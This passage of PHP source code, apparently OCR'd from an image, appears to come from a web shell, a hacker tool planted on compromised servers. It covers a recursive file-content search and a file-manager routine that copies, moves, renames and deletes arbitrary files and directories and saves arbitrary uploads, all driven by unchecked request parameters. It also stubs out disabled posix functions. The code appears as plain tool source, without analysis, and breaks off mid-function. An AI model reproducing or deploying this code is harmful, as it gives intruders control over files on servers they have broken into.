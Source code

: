 case '7':if(strstr($cont,$_REQUEST['search'])){if(is_file($adr))echo "[&lt;a href=\"".hlinK("seC=edit&filE=$adr&workingdiR=$c")."\"&gt;$adr&lt;/a&gt;]\n";if(is_dir($adr))echo "[&lt;a href=\"".hlinK("seC=fm&workingdiR=$adr")."\"&gt;$adr&lt;/a&gt;]\n";}break;
}
if (is_dir($adr)) listdiR($adr,$_REQUEST['task']);
}
}
if (!function_exists("posix_getpwuid") && !strstr($disablefunctions,'posix_getpwuid')) {function posix_getpwuid($u) {return 0;}}
if (!function_exists("posix_getgrgid") && !strstr($disablefunctions,'posix_getgrgid')) {function posix_getgrgid($g) {return 0;}}
function filemanager(){
global $windows,$msgbox,$errorbox,$t,$et,$hcwd;
$cwd= getcwd();
$table = "&lt;table border=0 cellpadding=0 cellspacing=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" bgcolor=\"#333333\" width=\"100%\"&gt;";
$td1n="&lt;td width=\"22%\" bgcolor=\"#666666\"&gt;";
$td2m="&lt;td width=\"22%\" bgcolor=\"#808080\"&gt;";
$td1i="&lt;td width=\"5%\" bgcolor=\"#666666\"&gt;";
$td2i="&lt;td width=\"5%\" bgcolor=\"#808080\"&gt;";
$tdnr="&lt;td width=\"22%\" bgcolor=\"#800000\"&gt;";
$tdw="&lt;td width=\"22%\" bgcolor=\"#006E00\"&gt;";
if (!empty($_REQUEST['task'])){
if (!empty($_REQUEST['search'])) $_REQUEST['task'] = 7;
if (!empty($_REQUEST['re'])) $_REQUEST['task'] = 6;
echo "&lt;font color=blue&gt;&lt;pre&gt;";
listdiR($cwd,$_REQUEST['task']);
echo "&lt;/pre&gt;&lt;/font&gt;";
}else{
if (!empty($_REQUEST['cP']) || !empty($_REQUEST['mV'])|| !empty($_REQUEST['rN'])){
if (!empty($_REQUEST['cP']) || !empty($_REQUEST['mV'])){
$title="Destination";
$ad = (!empty($_REQUEST['cP']))?$_REQUEST['cP']:$_REQUEST['mV'];
$dis =(!empty($_REQUEST['cP']))?'Copy':'Move';
}else{
$ad = $_REQUEST['rN'];
$title ="New name";
$dis = "Rename";
}
if (!!empty($_REQUEST['deS'])){
echo "&lt;center&gt;&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"40%\"&gt;&lt;tr&gt;&lt;td width=\"100%\" bgcolor=\"#333333\"&gt;$title:&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;$td1n&lt;form method=\"POST\"&gt;&lt;input type=text value=\"";if(empty($_REQUEST['rN'])) echo $cwd; echo "\" size=60 name=deS&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;$td2m$hcwd&lt;input type=hidden value=\"".htmlspecialchars($ad)."\" name=cp&gt;&lt;input class=buttons type=submit value=$dis&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;";
}else{
if (!empty($_REQUEST['rN'])) renamE($ad,$_REQUEST['deS']);
else{
copy($ad,$_REQUEST['deS']);
if (!empty($_REQUEST['mV']))unlink($ad);
}
}
}
if (!empty($_REQUEST['deL'])) { if (is_file($_REQUEST['deL'])|| is_link($_REQUEST['deL'])) unlink($_REQUEST['deL']);elseif(is_dir($_REQUEST['deL'])) {
$dh = opendir($_REQUEST['deL']);
$d="";
while ($cont=readdir($dh)){$d++;}
if ($d&gt;2) echo "$errorbox\"".htmlspecialchars($_REQUEST['del'])."\" is not empty!&lt;td&gt;&lt;tr&gt;&lt;/table&gt;&lt;br&gt;";else rmdir($_REQUEST['del']);}}
if (!empty($_FILES['uploadfile'])){
move_uploaded_file($_FILES['uploadfile']['tmp_name'],$_FILES['uploadfile']['name']);